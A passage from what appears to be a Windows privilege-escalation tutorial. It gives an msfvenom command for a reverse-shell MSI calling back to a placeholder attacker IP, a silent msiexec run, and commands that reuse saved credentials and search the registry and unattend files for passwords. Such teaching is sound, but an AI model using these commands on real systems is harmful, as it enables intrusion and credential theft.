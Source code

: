 Remember, to be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. 
If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below. 

```
msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. 

Once you have transferred the file you have created, you can run the  installer with the command below and receive the reverse shell. 

​            Command Run on the Target System        

```shell-session
           C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
        
```

**Passwords**
We have seen  earlier that looking for configuration or user-generated files  containing cleartext passwords can be rewarding. There are other  locations on Windows that could hide cleartext passwords. 

**Saved credentials:** Windows allows us to use other users' credentials. This function also  gives the option to save these credentials on the system. The command  below will list saved credentials. 
`cmdkey /list`



If you see any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below. 
`runas /savecred /user:admin reverse_shell.exe`

**Registry keys:** Registry keys potentially containing passwords can be queried using the commands below. 
`reg query HKLM /f password /t REG_SZ /s`
`reg query HKCU /f password /t REG_SZ /s`

**Unattend files:** Unattend.xml files helps system administrators setting up Windows  systems. They need to be deleted once the setup is complete but can  sometimes be forgotten on the system. What you will find in the  unattend.xml file can be different according to the setup that was done. If you can find them on a system, they are worth reading. 